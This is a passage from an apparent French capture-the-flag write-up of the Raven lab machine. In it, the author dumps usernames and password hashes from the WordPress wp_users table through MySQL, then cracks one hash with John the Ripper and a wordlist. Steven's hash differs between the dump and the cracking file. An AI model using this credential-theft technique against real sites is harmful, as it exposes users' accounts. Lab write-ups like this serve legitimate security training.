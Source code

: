 ```console
4 rows in set (0.01 sec)

mysql> use wordpress;
use wordpress;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.00 sec)

mysql> select ID, user_login, user_pass, user_email, display_name from wp_users;
select ID, user_login, user_pass, user_email, display_name from wp_users;
+----+------------+------------------------------------+-------------------+----------------+
| ID | user_login | user_pass                          | user_email        | display_name   |
+----+------------+------------------------------------+-------------------+----------------+
|  1 | michael    | $P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0 | michael@raven.org | michael        |
|  2 | steven     | $P$B6X3H3ykawf2oHuPsbjQiih5iJXqad. | steven@raven.org  | Steven Seagull |
+----+------------+------------------------------------+-------------------+----------------+
2 rows in set (0.00 sec)

mysql> exit
exit
Bye
www-data@Raven:/var/www/html/vendor$ 
```

Avec un peu de chance, [__John The Ripper__](https://www.openwall.com/john/) ne fera qu'une bouchée de ces hashs.

```console
root@blinils:~# cat pass-wordpress-raven.txt
michael:$P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0
steven:$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/

root@blinils:~# john pass-wordpress-raven.txt --wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
LOLLOL1           (steven)
1g 0:00:44:44 DONE (2018-11-22 22:22) 0.000381g/s 5473p/s 5490c/s 5490C/s            ..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
